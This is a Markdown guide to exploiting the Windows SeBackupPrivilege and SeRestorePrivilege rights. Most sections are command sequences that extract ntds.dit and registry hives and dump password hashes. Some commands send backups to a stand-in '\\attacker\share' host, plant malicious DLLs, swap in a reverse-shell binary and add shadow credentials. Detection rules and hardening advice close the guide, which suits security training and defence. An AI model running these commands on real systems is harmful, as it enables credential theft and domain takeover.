

# SeBackupPrivilege & SeRestorePrivilege Exploitation

## Overview

**SeBackupPrivilege** and **SeRestorePrivilege** are two of the most dangerous Windows user rights. They are routinely assigned to backup operators and, when misconfigured, to service accounts. An attacker who holds either privilege on a Domain Controller can achieve **full domain compromise** — extracting every password hash in Active Directory without ever needing Domain Admin credentials.

!!! danger "Impact"
    - **SeBackupPrivilege** → Read ANY file on the system, bypassing all NTFS DACLs → Extract NTDS.dit + SYSTEM hive → Offline DCSync
    - **SeRestorePrivilege** → Write ANY file on the system, bypassing all DACLs → DLL hijacking → Service persistence → ACL manipulation

---

## Understanding the Privileges

### SeBackupPrivilege

| Property | Detail |
|---|---|
| **Name** | `SeBackupPrivilege` |
| **Display Name** | "Back up files and directories" |
| **Default Assignment** | Administrators, Backup Operators |
| **What It Grants** | Bypass ALL file/directory NTFS permissions for READ access |
| **API Flag** | `FILE_FLAG_BACKUP_SEMANTICS` on `CreateFile()` |
| **Risk Level** | 🔴 Critical on Domain Controllers |

When a process opens a file with `FILE_FLAG_BACKUP_SEMANTICS`, Windows skips the normal DACL access check entirely. This means a user with SeBackupPrivilege can read files that have explicit Deny ACEs — including:

- `C:\Windows\NTDS\ntds.dit` (the Active Directory database)
- `C:\Windows\System32\config\SAM` (local password hashes)
- `C:\Windows\System32\config\SYSTEM` (contains the SYSKEY)
- Any file on any volume, regardless of permissions

### SeRestorePrivilege

| Property | Detail |
|---|---|
| **Name** | `SeRestorePrivilege` |
| **Display Name** | "Restore files and directories" |
| **Default Assignment** | Administrators, Backup Operators |
| **What It Grants** | Bypass ALL file/directory NTFS permissions for WRITE access |
| **Additional Powers** | Set ownership, modify DACLs, write to any registry key |
| **Risk Level** | 🔴 Critical — enables arbitrary file write and ACL tampering |

SeRestorePrivilege is even more dangerous in some ways — it allows writing to protected system files, overwriting DLLs, modifying registry hives, and changing security descriptors on any object.

---

## Who Has These Privileges by Default?

```
- Administrators (local)
- Backup Operators (local group)
- Domain Admins (on DCs, inherited)
- Server Operators (on DCs)
```

### Common Misconfigurations

These privileges are often over-assigned to:

- Service accounts for backup software (Veeam, Commvault, Veritas)
- Help desk accounts that "need to restore files"
- SQL Server service accounts (for database backup)
- Monitoring agents
- Custom delegation roles with overly broad rights

---

## Enumeration — Do I Have It?

### Check Current Token Privileges

```powershell
# PowerShell
whoami /priv
```

Look for:

```
SeBackupPrivilege        Back up files and directories     Disabled
SeRestorePrivilege       Restore files and directories     Disabled
```

!!! warning "Disabled ≠ Not Exploitable"
    Privileges shown as "Disabled" in the token can be **enabled at any time** by the process. They're present in the token — they just need to be activated. Tools like `EnableAllTokenPrivs` do this automatically.

### Check Who Has It via Group Policy

```powershell
# On Domain Controller
secedit /export /cfg C:\temp\secpol.cfg
type C:\temp\secpol.cfg | findstr /i "SeBackupPrivilege SeRestorePrivilege"
```

### Check via BloodHound

BloodHound CE marks members of **Backup Operators** with specific edges that lead to Domain Admin. Query:

```cypher
MATCH (g:Group {name: "BACKUP OPERATORS@DOMAIN.LOCAL"})-[:MemberOf*0..]->(target)
RETURN g, target
```

---

## Exploitation Technique 1: NTDS.dit Extraction (Domain Compromise)

This is the **primary attack** — extract the entire Active Directory database from a Domain Controller.

### Why NTDS.dit?

`NTDS.dit` is the AD database. It contains every user's password hash (NT hash), Kerberos keys, computer account secrets, and all directory objects. Extracting it is equivalent to running `secretsdump.py` / DCSync against the entire domain.

### The Problem: NTDS.dit Is Locked

The AD database is always open and locked by the `ntds` service. You cannot simply copy it. Solutions:

1. **Volume Shadow Copy** (preferred)
2. **DiskShadow** (built-in Windows utility)
3. **wbadmin** (Windows Server Backup)
4. **Raw NTFS read** via SeBackupPrivilege API calls

### Method A: Volume Shadow Copy + robocopy

```powershell
# 1. Enable the privilege (if running interactively)
Import-Module .\Enable-Privilege.ps1
Enable-Privilege SeBackupPrivilege

# 2. Create a Volume Shadow Copy
wmic shadowcopy call create Volume='C:\'

# 3. List shadow copies to get the DeviceObject path
vssadmin list shadows

# 4. Copy NTDS.dit from the shadow copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\temp\ntds.dit

# 5. Export the SYSTEM registry hive (contains the boot key for decryption)
reg save HKLM\SYSTEM C:\temp\SYSTEM

# 6. Exfiltrate both files and extract hashes offline
```

### Method B: DiskShadow (Scriptable, No GUI)

Create a script file `shadow.dsh`:

```
set context persistent nowriters
add volume c: alias purplesec
create
expose %purplesec% z:
```

Execute:

```cmd
diskshadow /s shadow.dsh
robocopy /b z:\Windows\NTDS C:\temp ntds.dit
reg save HKLM\SYSTEM C:\temp\SYSTEM
```

The `/b` flag on robocopy invokes backup semantics (uses SeBackupPrivilege).

### Method C: wbadmin (Windows Server Backup)

```cmd
:: Create a full backup of the C: drive to a network share
wbadmin start backup -backuptarget:\\attacker\share -include:c: -quiet

:: Recover NTDS.dit from the backup
wbadmin start recovery -version:<backup-version> -itemType:File -items:C:\Windows\NTDS\ntds.dit -recoverytarget:C:\temp -notRestoreAcl -quiet
```

### Method D: BackupOperatorToDA (Custom Tool)

The [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) tool automates the entire flow:

```powershell
# From the compromised backup operator's session
.\BackupOperatorToDA.exe -t \\dc01.corp.local -o C:\temp\
```

This creates a remote shadow copy, retrieves `ntds.dit` and `SYSTEM`, and handles cleanup.

### Method E: Impacket (Remote, from Linux)

If you have network access and credentials for a Backup Operator account:

```bash
# secretsdump with -use-vss flag leverages shadow copies remotely
impacket-secretsdump -use-vss 'DOMAIN/backupuser:Password123@dc01.corp.local'
```

This works because `secretsdump` uses the authenticated user's token privileges (including SeBackupPrivilege) to create a VSS snapshot remotely and read the NTDS.dit.

---

## Exploitation Technique 2: SAM/SYSTEM Extraction (Local Compromise)

On non-DC systems, the same technique extracts the local SAM database:

```cmd
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
reg save HKLM\SECURITY C:\temp\SECURITY
```

Then offline:

```bash
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

This reveals:

- Local Administrator NT hash
- Cached domain credentials (DCC2 format)
- LSA secrets (service account passwords in plaintext)

---

## Exploitation Technique 3: Registry Hive Dumping

SeBackupPrivilege allows reading protected registry hives even without Administrator membership:

```powershell
# Save all sensitive hives
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
reg save HKLM\SECURITY C:\temp\SECURITY
```

The SECURITY hive is particularly valuable — it contains **LSA secrets** which often include:

- Service account passwords in cleartext
- Machine account password
- DPAPI backup keys
- Cached domain logon credentials

---

## Exploitation Technique 4: SeRestorePrivilege → DLL Hijacking

SeRestorePrivilege allows writing to **any** file path. This enables planting malicious DLLs in locations loaded by privileged services:

### Identify a Target Service

```powershell
# Find services running as SYSTEM that load DLLs from writable-with-restore paths
Get-WmiObject Win32_Service | Where-Object {$_.StartName -eq "LocalSystem"} | 
Select-Object Name, PathName, StartMode
```

### Plant a Malicious DLL

```powershell
# Overwrite a DLL loaded by a SYSTEM service
# Example: wlbsctrl.dll loaded by IKEEXT service
copy C:\temp\evil.dll C:\Windows\System32\wlbsctrl.dll

# Restart the service (or wait for reboot)
sc stop IKEEXT
sc start IKEEXT
```

### Known DLL Hijack Targets

| Service | DLL | Path |
|---|---|---|
| IKEEXT | `wlbsctrl.dll` | `C:\Windows\System32\` |
| NetMan | `wlanhlp.dll` | `C:\Windows\System32\` |
| SessionEnv | `TSMSISrv.dll` | `C:\Windows\System32\` |
| UPnP | `upnphost.dll` | `C:\Windows\System32\` |

---

## Exploitation Technique 5: SeRestorePrivilege → ACL Manipulation

Because SeRestorePrivilege grants the ability to **set ownership and modify DACLs** on any object, you can:

### Take Ownership of Protected Files

```powershell
# Take ownership of a file you shouldn't be able to access
takeown /f C:\Windows\System32\config\SAM
icacls C:\Windows\System32\config\SAM /grant "DOMAIN\attacker:F"
```

### Modify Service Binary Paths

```powershell
# Take ownership of a service executable
takeown /f "C:\Program Files\VulnService\service.exe"

# Replace with malicious binary
copy C:\temp\reverse_shell.exe "C:\Program Files\VulnService\service.exe"
```

### Modify Active Directory Object ACLs (on DCs)

With SeRestorePrivilege on a DC, you can directly edit AD object security descriptors to grant yourself DCSync rights or other dangerous permissions.

---

## Exploitation Technique 6: Shadow Credentials via SeRestorePrivilege

If you have SeRestorePrivilege on a Domain Controller, you can modify the `msDS-KeyCredentialLink` attribute on any AD object:

```powershell
# Use Whisker to add a shadow credential to a target account
.\Whisker.exe add /target:Administrator /dc:dc01.corp.local
```

This gives you a certificate-based authentication path to the target account without knowing its password.

---

## Exploitation Technique 7: Remote Registry Backup

If SeBackupPrivilege is available over a remote connection:

```bash
# From Linux using impacket
impacket-reg 'DOMAIN/backupuser:Password@dc01.corp.local' save -keyName 'HKLM\SAM' -o '\\attacker\share\SAM'
impacket-reg 'DOMAIN/backupuser:Password@dc01.corp.local' save -keyName 'HKLM\SYSTEM' -o '\\attacker\share\SYSTEM'
```

---

## Post-Exploitation: Offline Hash Extraction

Once you have `ntds.dit` + `SYSTEM`:

### Using secretsdump (Impacket)

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

Output:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c2b35d5e35b3e7c2f8f3c0e7c2a7f8c1:::
john.doe:1103:aad3b435b51404eeaad3b435b51404ee:e99a18c428cb38d5f260853678922e03:::
```

### Using pypykatz

```bash
pypykatz registry --sam SAM --system SYSTEM --security SECURITY
```

### Using DSInternals (PowerShell)

```powershell
$key = Get-BootKey -SystemHivePath C:\temp\SYSTEM
Get-ADDBAccount -All -DBPath C:\temp\ntds.dit -BootKey $key | 
Format-Custom -View HashcatNT | Out-File hashes.txt
```

---

## Full Attack Chain Diagram



---

## Detection & Monitoring

### Event IDs to Monitor

| Event ID | Log | Description |
|---|---|---|
| **4673** | Security | Sensitive privilege use (SeBackupPrivilege / SeRestorePrivilege) |
| **4674** | Security | An operation was attempted on a privileged object |
| **4688** | Security | Process creation — watch for `diskshadow`, `wbadmin`, `vssadmin`, `robocopy /b` |
| **8222** | VSS | Shadow copy creation |
| **4656** | Security | Handle request to `ntds.dit`, `SAM`, `SYSTEM`, `SECURITY` |

### Sigma Rule: NTDS.dit Access via Backup Privilege

```yaml
title: NTDS.dit Access via Backup Semantics
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4663
    ObjectName|contains:
      - '\Windows\NTDS\ntds.dit'
      - '\Windows\System32\config\SAM'
      - '\Windows\System32\config\SYSTEM'
    AccessMask:
      - '0x1'      # READ_ACCESS
      - '0x80'     # BACKUP semantics
  condition: selection
level: critical
```

### KQL Detection (Microsoft Sentinel)

```kql
SecurityEvent
| where EventID == 4673
| where PrivilegeList has_any ("SeBackupPrivilege", "SeRestorePrivilege")
| where SubjectUserName !in ("SYSTEM", "LOCAL SERVICE", "NETWORK SERVICE")
| project TimeGenerated, Computer, SubjectUserName, SubjectDomainName, ProcessName, PrivilegeList
| sort by TimeGenerated desc
```

---

## Mitigation & Hardening

### 1. Minimize Privilege Assignment

```powershell
# Audit who has these privileges
secedit /export /cfg C:\secpol.cfg
Select-String "SeBackupPrivilege|SeRestorePrivilege" C:\secpol.cfg
```

Remove SeBackupPrivilege and SeRestorePrivilege from all accounts that don't **absolutely** require them. Use dedicated, tightly controlled backup service accounts with:

- No interactive logon rights
- No remote desktop access
- No membership in other privileged groups

### 2. Separate Backup Infrastructure

Never use the same account for backup operations and interactive administration. Implement a dedicated backup tier:

- Backup accounts can ONLY be used from designated backup servers
- Logon restrictions via Group Policy (`Deny log on locally`, `Deny log on through Remote Desktop`)
- Authentication Policy Silos (Windows Server 2012 R2+)

### 3. Monitor Privilege Usage

Enable "Audit Privilege Use" in Group Policy:

```
Computer Configuration → Policies → Windows Settings → 
Security Settings → Advanced Audit Policy → 
Privilege Use → Audit Sensitive Privilege Use: Success, Failure
```

### 4. Protect NTDS.dit Access

- Use Windows Credential Guard on DCs (protects LSASS memory)
- Implement Admin Tiering — Tier 0 accounts ONLY on Tier 0 systems
- Monitor for shadow copy creation on DCs (Event 8222)
- Alert on any non-backup-software process accessing `ntds.dit`

### 5. Disable Unused Privileges via GPO

If backup is handled by a specific application (e.g., Veeam), revoke SeBackupPrivilege from the default Backup Operators group and assign it only to the Veeam service account — with strict logon restrictions.

---

## Tools Reference

| Tool | Platform | Use Case |
|---|---|---|
| **impacket-secretsdump** | Linux/Python | Remote NTDS extraction via VSS (`-use-vss`) |
| **BackupOperatorToDA** | Windows/.NET | Automated remote shadow copy + NTDS extraction |
| **diskshadow** | Windows (built-in) | Scriptable shadow copy creation |
| **robocopy /b** | Windows (built-in) | Copy files using backup semantics |
| **reg save** | Windows (built-in) | Export registry hives |
| **pypykatz** | Linux/Python | Offline NTDS/SAM/SYSTEM extraction |
| **DSInternals** | Windows/PowerShell | AD database manipulation and hash extraction |
| **Whisker** | Windows/.NET | Shadow Credential planting |
| **EnableAllTokenPrivs** | Windows/.NET | Enable disabled token privileges |

---

## References

- [Microsoft — User Rights Assignment](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)
- [HackTricks — SeBackupPrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens/abuse-sebackupprivilege)
- [ired.team — Backup Operator Privilege Escalation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-persistence/abusing-backup-operators-group)
- [CPTS Module — Windows Privilege Escalation](https://academy.hackthebox.com/)
